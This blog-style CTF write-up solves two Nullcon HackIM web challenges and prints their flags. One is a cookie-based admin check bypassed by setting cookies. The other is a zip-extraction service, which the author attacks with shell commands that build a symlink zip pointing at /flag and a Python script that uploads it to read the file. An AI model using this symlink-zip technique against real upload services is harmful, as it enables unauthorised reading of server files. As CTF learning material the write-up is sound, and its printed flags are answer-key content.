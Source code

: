 ```yaml
---
title: Nullcon HackIM CTF
description: CTF writeups
author: 0xRamInf0sec
date: 2023-08-19 11:33:00 +0800
categories: [CTF,WEB]
tags: [ctf,web]
---
```


## Challenge - Reguest

Description : HTTP requests and libraries are hard. Sometimes they do not behave as expected, which might lead to vulnerabilities.

## **Solution :**

On visiting the page , it shows with some instruction and cookies.

![ctf01.png](assets/img/ctf01.png)

```php
role = request.cookies.get('role','guest')
	really = request.cookies.get('really', 'no')
	if role == 'admin':
		if really == 'yes':
			resp = 'Admin: ' + os.environ['FLAG']
		else:
			resp = 'Guest: Nope'
	else:
		resp = 'Guest: Nope'
	return Response(resp, mimetype='text/plain')
```

Look at the code , the role variable has the ‘role’ cookie and really variable has the ‘really’ cookie and it checks whether the role cookie is equals to admin and really cookie equals to yes . 

If both role and really equals to admin and yes respectively , we will get flag !!.

Now , we have to set the cookies role = admin and really = yes …

Flag : `ENO{R3Qu3sts_4r3_s0m3T1m3s_we1rd_dont_get_confused}`

## Challenge : zpr

Description : My colleague built a service which shows the contents of a zip file. He says there's nothing to worry about.…

## Solution:

The webpage shows with some instruction as make a zipfile as post request !!.

![ctf02.png](assets/img/ctf02.png)

So, we have to send zip file to the server.They gave the actual backend code for the challege.

```python
def upload():
	output = io.StringIO()
	if 'file' not in request.files:
		output.write("No file provided!\n")
		return Response(output.getvalue(), mimetype='text/plain')

	try:
		file = request.files['file']

		filename = hashlib.md5(secrets.token_hex(8).encode()).hexdigest()
		dirname = hashlib.md5(filename.encode()).hexdigest()

		dpath = os.path.join("/tmp/data", dirname)
		fpath = os.path.join(dpath, filename + ".zip")

		os.mkdir(dpath)
		file.save(fpath)

		with zipfile.ZipFile(fpath) as zipf:
			files = zipf.infolist()
			if len(files) > 5:
				raise Exception("Too many files!")

			total_size = 0
			for the_file in files:
				if the_file.file_size > 50:
					raise Exception("File too big.")

				total_size += the_file.file_size

			if total_size > 250:
				raise Exception("Files too big in total")

		check_output(['unzip', '-q', fpath, '-d', dpath])

		g = glob.glob(dpath + "/*")
		for f in g:
			output.write("Found a file: " + f + "\n")

		output.write("Find your files at http://...:8088/" + dirname + "/\n")

	except Exception as e:
		output.write("Error :-/\n")

	return Response(output.getvalue(), mimetype='text/plain')
```

On looking up the code, we can see that the website extracts our archive .It should have checked for any symlinks associated with the zip file but it doesn’t.

We have to create the zip file with symlink!!

```bash
ln -s /flag flag.txt
zip --symlinks flag.zip flag.txt
```

So, now we have to upload this zip file to the server using python.

```python
import requests

URL = "http://52.59.124.14:10015/"
files = {'file': open('flag.zip', 'rb')}
getdata = requests.post(URL, files=files)
print(getdata.content)
```

![ctf03.png](assets/img/ctf03.png)

We have a path to the uploaded zip file , on visiting to that path we can able to see the zip file with flag.txt@ 

Got the flag using flag.txt@ file!!.

Flag : `ENO{Z1pF1L3s_C4N_B3_Dangerous_so_b3_c4r3ful!}`